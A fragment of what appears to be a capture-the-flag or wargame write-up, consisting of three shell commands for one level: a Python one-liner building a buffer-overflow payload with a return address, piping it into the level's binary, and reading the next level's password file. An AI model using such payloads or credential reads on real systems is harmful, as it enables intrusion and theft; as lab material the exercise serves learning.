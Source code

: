 `python -c 'print "n" * 76 + "\x44\x84\x04\x08"' > /tmp/level1`
`cat /tmp/level1 - | ./level1`
`cat /home/user/level2/.pass`
